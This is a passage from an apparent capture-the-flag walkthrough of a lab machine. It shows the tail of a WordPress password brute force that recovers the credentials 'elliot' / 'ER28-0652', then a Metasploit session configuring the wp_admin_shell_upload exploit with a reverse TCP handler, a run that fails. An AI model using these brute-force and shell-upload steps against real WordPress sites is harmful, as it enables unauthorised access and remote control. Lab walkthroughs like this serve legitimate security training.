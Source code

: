 ```console
  |    | elliot |      | ER28-0652 |
  +----+--------+------+-----------+

[+] Finished: Mon Feb 18 23:02:39 2019
[+] Elapsed time: 00:05:17
[+] Requests made: 6026
[+] Memory used: 23.734 MB
```

Try the username and password in __http://192.168.1.1/wp-login.php__. We got admin access.

With the username and the password we have, let's dive into __metasploit__.
```console
root@kali:~/Projects# msfconsole

       =[ metasploit v4.17.3-dev                          ]
+ -- --=[ 1797 exploits - 1019 auxiliary - 310 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(unix/webapp/wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   WordPress


msf exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME elliot
USERNAME => elliot
msf exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD ER28-0652
PASSWORD => ER28-0652
msf exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[-] Exploit aborted due to failure: not-found: The target does not appear to be using WordPress
[*] Exploit completed, but no session was created.
```
